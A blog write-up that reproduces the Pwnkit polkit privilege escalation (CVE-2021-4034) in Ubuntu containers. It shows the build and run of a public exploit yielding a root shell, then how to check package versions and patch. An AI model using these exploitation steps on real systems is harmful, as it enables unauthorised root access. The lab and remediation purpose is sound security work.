 ```yaml
---
title: "Pwnkit: How to exploit and check"
date: 2022-01-26T21:34:35Z
tags: ["ubuntu","security"]
featured_image: "/images/pwnkit_how_to_check_and_exploit_title.jpg"
---
```


Pwnkit is a vulnerability that uses a bug in `polkit` to elevate permissions to root.  This write-up shows how
to reproduce it using Ubuntu and what to do to check whether a system is vulnerable.

# What went wrong?

Quoting from the [original researchers](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt):

> This vulnerability is an attacker's dream come true:
> 
> - pkexec is installed by default on all major Linux distributions;
> - pkexec is vulnerable since its creation, in May 2009;
> - any unprivileged local user can exploit this vulnerability to obtain
>   full root privileges;
> - although this vulnerability is technically a memory corruption, it is
>   exploitable instantly, reliably, in an architecture-independent way;
> - and it is exploitable even if the polkit daemon itself is not running.

It doesn't take long to find a [GitHub repository](https://github.com/berdav/CVE-2021-4034) that contains an exploit, 
and looking through the code, it looks pretty straightforward.  

*Important Note - always read through the code of
any exploit you find on the Internet. If you don't understand what it's doing, DO NOT blindly run it.*

The repository contains the following:

- README: with some instructions
- Makefile: builds the code
- cve-2021-4043.c: main program for running the exploit
- pwnkit.c: library code

All in all 50 lines of code and build instructions.  Sounds very simple.

# Trying out the exploit

To try out the exploit, I checked the [Ubuntu page for CVE-2021-4034](https://ubuntu.com/security/CVE-2021-4034) and found
that 18.04 was patched while 21.04 was no longer supported.

So first, I stood up a container and dependencies to build the files for the exploit:

```shell
$ docker run -it ubuntu:18.04
root@c53ebc98cf8d:/# apt-get update
[...]
root@c53ebc98cf8d:/# apt-get install gcc
[...]
root@c53ebc98cf8d:/# apt-get install policykit-1
[...]
```

In the ubuntu docker container I had to install `policykit-1` as the docker image was pretty minimal, but it polkit
*is* pretty standard.

Next I created a standard user:

```shell
root@c53ebc98cf8d:/# adduser testuser
Adding user `testuser' ...
Adding new group `testuser' (1000) ...
Adding new user `testuser' (1000) with group `testuser' ...
[...]
```

Then I logged in as that user

```shell
root@c53ebc98cf8d:/# login
c53ebc98cf8d login: testuser
Password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.10.88-0-virt x86_64)
[...]
```

To build the exploit, get all the files from the above repository, then use `make` to build

```shell
testuser@c53ebc98cf8d:~$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp /bin/true GCONV_PATH=./pwnkit.so:.
```

And then run it:

```shell
testuser@c53ebc98cf8d:~$ ./cve-2021-4034 
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
```

The above is an indication that the exploit didn't work - `pkexec` is patched.

# Verify the exploit

To verify that the exploit works, I started Ubuntu 21.04 (no longer supported)

```shell
$ docker run -it ubuntu:21.04
root@3a2e46e2293e:/# apt-get update
[...]
root@3a2e46e2293e:/# apt-get install policykit-1
[...]
```

Then I created the `testuser` again and transferred the contents the built exploit onto the system

```shell
testuser@3a2e46e2293e:~$ tar xfz pwnkit.tgz 
testuser@3a2e46e2293e:~$ ls -l
total 60
drwxrwxr-x 2 testuser testuser  4096 Jan 26 16:54 'GCONV_PATH=.'
-rw-rw-r-- 1 testuser testuser   400 Jan 26 16:53  Makefile
-rwxrwxr-x 1 testuser testuser  8360 Jan 26 16:54  cve-2021-4034
-rw-rw-r-- 1 testuser testuser   274 Jan 26 16:53  cve-2021-4034.c
-rw-rw-r-- 1 testuser testuser    33 Jan 26 16:54  gconv-modules
-rw-rw-r-- 1 testuser testuser   266 Jan 26 16:54  pwnkit.c
-rwxrwxr-x 1 testuser testuser  7984 Jan 26 16:54  pwnkit.so
-rw-r--r-- 1      501 dialout  17364 Jan 26 21:11  pwnkit.tgz
```

And then ran it again:

```shell
testuser@3a2e46e2293e:~$ ./cve-2021-4034 
# whoami
root
```

Success!

# Checking versions

One gotcha I found with this was when I looked for an easy way to check whether `polkit` is vulnerable:

```shell
$ pkexec --version
pkexec version 0.105
```

is *NOT* the right way to do this.  I found that when trying a vulnerable image and a patched one, the version
came back as the same.

The better way I found was to use (this was ubuntu):

Vulnerable:

```shell
$ apt-cache policy policykit-1
policykit-1:
  Installed: 0.105-20ubuntu0.18.04.5
  Candidate: 0.105-20ubuntu0.18.04.5
```

Not vulnerable:

```shell
$ apt-cache policy policykit-1
policykit-1:
  Installed: 0.105-20ubuntu0.18.04.6
  Candidate: 0.105-20ubuntu0.18.04.6
```

Compare the version numbers with the information on [this page](https://ubuntu.com/security/CVE-2021-4034)

# Conclusion

As this is not a vulnerability that can be remotely triggered, I don't think this should mean panic stations on 
log4shell levels, but the public availability of the exploit, the ease of exploiting it and the fact it applies to
most distributions should mean only one thing: get patching! 